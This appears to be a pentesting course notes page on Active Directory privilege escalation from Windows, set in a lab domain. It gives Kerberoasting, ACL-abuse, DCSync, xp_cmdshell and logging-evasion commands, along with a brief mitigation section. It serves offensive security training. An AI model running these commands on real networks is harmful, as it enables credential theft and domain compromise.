

# Privilege escalation in Active Directory from Windows

!!! quotes "Resources"
	- [TheHacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword#forcechangepassword

[Index of Active Directory](active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)


## 🔐 Kerberoasting 

[See about Kerberos authentication](kerberos-authentication.md).

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments.

Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256. Overall:

- RC4 (type 23) encryption: TGS  hashes that begin with `$krb5tgs$23$*`
- AES-256 (type 18) encryption: TGS  hashes that begin with `$krb5tgs$18$*`

#### setspn.exe

**1.** Enumerating SPNs with setspn.exe

```cmd-session
setspn.exe -Q */*
```

We will focus on `user accounts` and ignore the computer accounts returned by the tool.

**2.** Using PowerShell, we can request TGS tickets for the interested account and load them into memory.

```powershell
Add-Type -AssemblyName System.IdentityModel
# Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object.
# -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
# System.IdentityModel is a namespace that contains different classes for building security token services

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
#  New-Object cmdlet to create an instance of a .NET Framework object.
# System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token 
# -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433": pass the SPN name to the class to request a Kerberos TGS ticket
```


**3.** If needed, we could also retrieve all tickets:

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


**4.** Extract Tickets from Memory with Mimikatz

```cmd-session
# Launch mimikatz
mimikatz.exe

# Specify base64
base64 /out:true
# If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files.

# Export the tickets
kerberos::list /export 
```

**5.** Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```


**6.** We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**7.** Use [kirbi2john.py](kirbi2john.md):


```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

**8.** Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

#### PowerView

Let's use PowerView to extract the TGS tickets and convert them to Hashcat format. 

**1.** Enumerating SPNs with PowerView:

```powershell
# certutil -urlcache -f http://$ip/PowerView.ps1 PowerView.ps1
# Import module
Import-Module .\PowerView.ps1

# List SPNs: Option 1
Get-DomainUser * -spn | select samaccountname

# List SPNs: Option 2
Get-NetUser -SPN
```

**2.** Generate a TGS ticker for a specific user:

```powershell
# Option 1
Get-DomainUser -Identity $samAccountName | Get-DomainSPNTicket -Format Hashcat

# Option 2
Get-DomainSPNTicket -SPN $samAccountName -OutputFormat Hashcat | select -ExpandProperty Hash > file.txt
```

**3.** Or obtain all SPN TGS tickets and export them to a CSV

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\FileName.csv -NoTypeInformation
```


#### Rubeus

[See more about Rubeus](rubeus.md).

Gather stats:

```powershell
 \Rubeus.exe kerberoast /stats
```

Request tickets with admincount attribute set to 1:

```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
# /nowrap flag: so that the hash can be more easily copied down for offline cracking using Hashcat. The ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped.
```

 Perform Kerberoasting on a user testspn:
 
```powershell
# Perform Kerberoasting on a user testspn
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

If the received TGS ticket is RC4 (type 23) encrypted, it will be easier to crack. We can check out if the user hast the `msDS-SupportedEncryptionTypes` attribute is set to `0`.  The chart [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) tells us that a decimal value of `0` means that a specific encryption type is not defined and set to the default of `RC4_HMAC_MD5`.

```powershell
# Check the encryption of the TGS ticket for user testspn
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes


#serviceprincipalname       msds-supportedencryptiontypes samaccountname
# ----------                 ----------------------------- --------------
# testspn/kerberoast.inlanefreight.local               0   testspn
```

With RC4 (type 23) encryption, this would be the hashcat module:

```shell-session
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

The results for the AES-256 (type 18) encryption would be `24`:

```powershell
# Check the encryption of the TGS ticket for user testspn
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes


#serviceprincipalname       msds-supportedencryptiontypes samaccountname
# ----------                 ----------------------------- --------------
# testspn/kerberoast.inlanefreight.local               24   testspn
```

With AES (type 18) encryption, this would be the hashcat module:

```shell-session
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```

**We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption  when requesting a new service ticket even though the supported encryption types are listed as AES 128/256.** This may be a failsafe built-in to Active Directory for backward compatibility.

```powershell
# Perform Kerberoasting on a user testspn
.\Rubeus.exe kerberoast /user:testspn /nowrap /tgtdeleg
# /tgtdeleg: specify that we want only RC4 encryption when requesting a new service ticket.
```

> Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use.

> In addition, It is possible to edit the encryption types used by Kerberos. This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options, then double-clicking on Network security: Configure encryption types allowed for Kerberos and selecting the desired encryption type allowed for Kerberos. Removing all other encryption types except for RC4_HMAC_MD5 would allow for the above downgrade example to occur in 2019. Removing support for AES would introduce a security flaw into AD and should likely never be done. 


#### Mitigating Kerberoasting

Kerberoasting requests Kerberos TGS tickets with RC4 encryption, which should not be the majority of Kerberos activity within a domain. When Kerberoasting is occurring in the environment, we will see an abnormal number of TGS-REQ and TGS-REP requests and responses, signaling the use of automated Kerberoasting tools.

omain controllers can be configured to log Kerberos TGS ticket requests by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy. Doing so will generate two separate event IDs:

-  [4769](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested, 
- and [4770](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed.

10-20 Kerberos TGS requests for a given account can be considered normal in a given environment. A large amount of 4769 event IDs from one account within a short period may indicate an attack.

Some other remediation steps include restricting the use of the RC4 algorithm, particularly for Kerberos requests by service accounts. This must be tested to make sure nothing breaks within the environment. Furthermore, Domain Admins and other highly privileged accounts should not be used as SPN accounts (if SPN accounts must exist in the environment).


## 🛂  Access Control List (ACL)Abuse 

[See more about Access Control List](access-control-list.md).

During an assessment where the client has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 

Some example Active Directory object security permissions are as follows.

- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`

We can use ACL attacks for:

- Lateral movement
- Privilege escalation
- Persistence

### Enumerating ACLs 

#### PowerView

```powershell
# First import PowerView module
Import-Module .\PowerView.ps1

# Now enumerate
Find-InterestingDomainAcl
```

Now, there is a way to use a tool such as PowerView more effectively -- by performing targeted enumeration starting with a user that we have control over. 

```powershell
# First import PowerView module
Import-Module .\PowerView.ps1

# Obtain the SID of the user you have control on, for instance wley, and set it to variable $sid
$sid = Convert-NameToSid wley

#  Find all domain objects that our user has rights over 
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
# -ResolveGUIDs: PowerView flag that will return the ObjectAceType property in a readable way and not as a GUID value that is not human readable.

# Lists of objects which you have Force-Change-Password right over. First, get your current user’s sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have _Force-Change-Password_.
get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.objectacetype -eq "User-Force-Change-Password")}

# Examine the rights that a user has over a group
$sid = Convert-NameToSid $userSamAccountName
Get-DomainObjectACL -Identity "$groupName" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}

# Examine the rights that a user has over another user
$sid = Convert-NameToSid $user1SamAccountName
Get-DomainObjectACL -Identity "$user2SamAccountName" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```

Result:

```powershell
AceQualifier           : AccessAllowed
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114-1176
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3842939050-3880317879-2865463114-1181
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0
```

The ObjectAceType `User-Force-Change-Password` means that we have the right to modify `Dana Amundsen`'s password.

Without the PowerView flag `-ResolveGUIDs`, we would get `ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529`, the GUID. We can google and get to [this microsoft page](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password).  We can also perform a Reverse Search & Map to a GUID Value:

```powershell
$guid= "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```


#### Powershell

```powershell
# Create a List of Domain Users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# For each user, use the Get-Acl cmdlet to retrieve ACL information of every user with the Get-ADUser cmdlet
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

# Once we have this data, we could follow the same methods shown above to convert the GUID to a human-readable format to understand what rights we have over the target user.
$guid= "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

```

#### Bloodhound

See [bloodhound](bloodhound.md).

Steps: 

1.  Launch bloodhound. Update the zip/json files. 
2. Set a user  as the starting node, select the `Node Info` tab and scroll down to `Outbound Control Rights`.  
3. This option will show us objects we have control over directly, via group membership, and the number of objects that our user could lead to us controlling via ACL attack paths under `Transitive Object Control`.

By right-clicking on the line between  two objects, a menu will pop up.


### ForceChangePassword


This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the target user.

#### Change password (plaintext)
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```powershell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 

Set-DomainUserPassword -Identity $TargetUser -AccountPassword $NewPassword

runas /$TargetUser:[domain\$TargetUser] cmd.exe
```

We can also use mimikatz:

```powershell
lsadump::setntlm
```

#### Change password using SecureString Object

```powershell
# Wley will change the password of damundsen. First, open Powershell as Wley
# Creating a PSCredential Object
$SecPassword = ConvertTo-SecureString '$wleyPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 

# Creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
cd C:\Tools\
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

Note: The **`SecureString` object** (`$SecPassword`) is associated with the **user `wley`** because it is used to create a **`PSCredential` object**, which represents a specific user's credentials. These credentials are used afterwards with the  `Set-DomainUserPassword` command, whereas the `-Credential` parameter ensures that all actions taken within that cmdlet use the privileges of the `wley` account.

###  AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

Let's imagine we have gained access to the user damundsen via the ForceChangePassword abuse. Now we can continue using PowerView to take this attack further:

```powershell
$sid2 = Convert-NameToSid damundsen

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

See the results:

```powershell
AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-4022
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1176
AccessMask            : 131132
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

#### GenericWrite




Our user damundsen has GenericWrite privileges over the `Help Desk Level 1` group. This means, among other things, that the attacker can add a user/group/computer to a group.

=== "Linux"

    ```bash
    # With net and cleartext credentials (will be prompted) 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST" 
    
    # With net and cleartext credentials 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST" 
    
    # With Pass-the-Hash 
    pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
    ```

=== "Windows"

    ```powershell
    # Command line
	net group 'Help Desk Level 1' $user /add /domain 
	
	# Powershell: Active Directory module 
	Add-ADGroupMember -Identity 'Help Desk Level 1' -Members $user
	
	# Powershell: PowerSploit module 
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members $user
    ```

=== "Windows with SecureString"

	```powershell
	# Creating a SecureString Object using damundsen
	$SecPassword = ConvertTo-SecureString '$damundsenPassword' -AsPlainText -Force
	$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
		
	# Add damundsen to the group
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
		
	# Confirming damundsen was Added to the Group
	Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName


#### GenericAll


Investigating the Help Desk Level 1 Group with Get-DomainGroup: 

```powershell
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof

# memberof                                                      #                 
# --------                                                      
# CN=Information Technology,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```

The Help Desk Level 1 group is nested into the Information Technology group.  

Investigating the Information Technology Group

```powershell
$itgroupsid = Convert-NameToSid "Information Technology"

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

Results:
```powershell
AceType               : AccessAllowed
ObjectDN              : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-1164
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-4016
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

Members of the `Information Technology` group have `GenericAll` rights over the user `adunn`, which means we could:

- Modify group membership
- Force change a password
- Perform a targeted Kerberoasting attack and attempt to crack the user's password if it is weak

Let's do a kerberoasting attack:

```powershell
# Creating a SecureString Object using damundsen
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 

# Creating a Fake SPN
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

#  Kerberoasting with Rubeus
.\Rubeus.exe kerberoast /user:adunn /nowrap

# Crack it
hashcat -m 13100 $filename /usr/share/wordlists/rockyou.txt
```


Clean up:

```powershell
# 1. Removing the Fake SPN from adunn's Account
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

# 2. Remove the damundsen user from the Help Desk Level 1 group
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
# Confirming damundsen was Removed from the Group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

### DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

**1.** Use Get-DomainUser to View the users's Group Membership:

```powershell
Get-DomainUser -Identity $userSamAccountName  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

**2.** Check if the user has replication rights:

```powershell
# we obtained the sid from previous command
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.


####  Linux:  Impacket’s secretsdump.py

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# just-dc-user <USERNAME> to only extract data for a specific user
# -pwd-last-set to see when each account's password was last changed
# -history if we want to dump password history
# -user-status flag to check and see if a user is disabled. 

# This will generate 3 files with dumped secrets
```


#### Reversible Encryption Password Storage Set


When this option is set on a user account, the passwords are stored using RC4 encryption, the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent.

Enumerate accounts with reversible Encryption Password Storage Set with Active Directive cmdlet:

```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

Enumerate accounts with reversible Encryption Password Storage Set with PowerView:

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

To decrypt it we can use Impacket’s secretsdump.py:

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

#### Mimikatz

Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

```cmd-session
runas /netonly /user:$domain\$userSamAccountName powershell
# Example:
# runas /netonly /user:INLANEFREIGHT\adunn powershell
```

And now, from powershell:

```powershell

.\mimikatz.exe

#########
# mimikatz command
########
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator

```

## ⛔ Privileged Access

Sometimes we don't  have local admin rights on any hosts in the domain. However there are other ways to access the host:

- `Remote Desktop Protocol` (`RDP`) - is a remote access/management protocol that gives us GUI access to a target host
    
- [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2) - also referred to as [PSRemoting or Windows Remote Management (WinRM) access](5985-5986-winrm-windows-remote-management.md), is a remote access protocol that allows us to run commands or enter an interactive command-line session on a remote host using PowerShell
    
- `MSSQL Server` - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. 

Via BloodHound we can enumerate the following edges to see what types of remote access privileges a given user has:

- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

### Remote Desktop

Enumerating the Remote Desktop Users Group with PowerView.ps1.

```powershell
Import-Module .\PowerView.ps1

# Enumerate members accessing current machine
Get-NetLocalGroupMember -GroupName "Remote Desktop Users"

# Enumerate members accessing a given host
Get-NetLocalGroupMember -ComputerName $HostName -GroupName "Remote Desktop Users"
# Example:
# Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

```

From Bloodhound, we can check the Analysis tab and run the pre-built queries `Find Workstations where Domain Users can RDP` or `Find Servers where Domain Users can RDP`.

Test access with
Linux: xfreerdp, rdesktop, Remmina 
Windows:  mstsc.exe.

### WinRM

Enumerating the Remote Management Users Group with PowerView.ps1.

```powershell
Import-Module .\PowerView.ps1

# Enumerate members accessing current machine
Get-NetLocalGroupMember -GroupName "Remote Management Users"

# Enumerate members accessing a given host
Get-NetLocalGroupMember -ComputerName $HostName -GroupName "Remote Management Users"
# Example:
# Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

In Bloodhound, we can use this Cypher query and add it as a custom query:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

To access from Linux, use [evil-winrm](evil-winrm.md).

```bash
evil-winrm -i $ip -u <username -p <password>

evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
# -H: Hash
```

To access from Windows, use Powershell and the [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet:

```powershell
# Create a SecureString object_
$password = ConvertTo-SecureString "$passwordOfUser" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("$domain\$userSamAccountName", $password)

# Access the host
Enter-PSSession -ComputerName $hostName -Credential $cred

#####
# Example:
# $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
# $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
# Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```


### SQL Server Admin

 Enumerate via Bloodhound and the `SQLAdmin` edge. We can check for `SQL Admin Rights` in the `Node Info` tab for a given user or use this custom Cypher query to search:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

Enumerating MSSQL Instances with [PowerUpSQL](powerupsql.md). The command needs to be ran by an user with `SQLAdmin` rights: 

```powershell
cd C:\Tools\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

 Authenticate against the remote SQL server host and run custom queries or operating system commands.

```powershell
Get-SQLQuery -Verbose -Instance "$ipHost,$port" -username "$domain\$userSamAccountName" -password "$password" -query 'Select @@version'

# Example:
# Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```
 
We can also authenticate from our Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the Impacket toolkit.

```bash
mssqlclient.py $domain/$user@$ip -windows-auth
# Example:
# mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

We could then choose `enable_xp_cmdshell` to enable the [xp_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

```bash
SQL> enable_xp_cmdshell
```

Finally, we can run commands in the format `xp_cmdshell <command>`.

```bash
xp_cmdshell whoami /priv
```

>Finally, we can run commands in the format `xp_cmdshell <command>`. Here we can enumerate the rights that our user has on the system and see that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to `SYSTEM` level privileges, depending on the target host, and use this access to continue toward our goal.
>

## Evasion Techniques

#### Downgrade Powershell

Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. 

